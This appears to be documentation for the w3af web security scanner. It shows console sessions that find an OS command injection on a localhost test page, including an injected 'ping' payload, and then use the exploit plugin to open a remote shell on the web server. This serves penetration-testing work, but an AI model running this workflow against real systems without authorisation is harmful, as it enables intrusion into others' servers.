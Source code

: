 Exploiting Web application vulnerabilities
==========================================

``w3af`` allows users to exploit Web application vulnerabilities in an automated manner. The vulnerabilities to be exploited can be identified using ``audit`` plugins or manually by the user (and then the vulnerability details are provided to ``w3af``).

During the scan vulnerabilities are found and stored in specific locations of the knowledge base, from where exploit plugins can read and use the stored information to exploit the vulnerability. Exploiting a vulnerability identified by an audit plugin is easy:

.. code-block:: none

    w3af>>> plugins
    w3af/plugins>>> audit os_commanding
    w3af/plugins>>> back
    w3af>>> target
    w3af/config:target>>> set target http://localhost/w3af/os_commanding/v.php?command=f0as9
    w3af/config:target>>> back
    w3af>>> start
    Found 1 URLs and 1 different points of injection.
    The list of URLs is:
    - http://localhost/w3af/os_commanding/v.php
    The list of fuzzable requests is:
    - http://localhost/w3af/os_commanding/v.php | Method: GET | Parameters: (command)
    Starting os_commanding plugin execution.
    OS Commanding was found at: "http://localhost/w3af/os_commanding/v.php", using HTTP method GET.
    The sent data was: "command=+ping+-c+9+localhost". The vulnerability was found in the request with id 5.
    Finished scanning process.
    w3af>>> exploit
    w3af/exploit>>> exploit os_commanding
    os_commanding exploit plugin is starting.
    Vulnerability successfully exploited. This is a list of available shells:
    - [0] <os_commanding_shell object (ruser: "www-data" | rsystem: "Linux brick 2.6.24-19")>
    Please use the interact command to interact with the shell objects.
    w3af/exploit>>> interact 0
    Execute "end_interaction" to get out of the remote shell.
    Commands typed in this menu will be runned on the remote web server.
    w3af/exploit/os_commanding-0>>> ls
    v.php
    v2.php
    v3.php
    w3af/exploit/os_commanding-0>>> end_interaction
    w3af/exploit>>> back
    w3af>>>

Exploiting one you've found manually, requires you to provide some input:

.. code-block:: none

    w3af>>> kb
    w3af/kb>>> help
    | list            | List the items in the knowledge base.
    | add             | Add a vulnerability to the KB
    w3af/kb>>> add os_commanding 
    w3af/kb/config:os_commanding>>> view
    | operating_system         | Remote operating system (linux or windows).
    | name                     | Vulnerability name (eg. SQL Injection)
    | url                      | URL (without query string parameters)
    | vulnerable_parameter     | Vulnerable parameter
    | separator                | Command separator used for injecting commands.
    | data                     | Query string or postdata parameters in url-encoded form
    | method                   | HTTP method
    w3af/kb/config:os_commanding>>> 

You simply ``set`` all the configuration settings and then execute ``save`` and ``back`` to store your vulnerability in the knowledge base. Once the information is there you'll be able to follow the same steps:

.. code-block:: none

    w3af>>> exploit
    w3af/exploit>>> exploit os_commanding
    os_commanding exploit plugin is starting.
    Vulnerability successfully exploited. This is a list of available shells:
    - [0] <os_commanding_shell object (ruser: "www-data" | rsystem: "Linux brick 2.6.24-19")>
    Please use the interact command to interact with the shell objects.
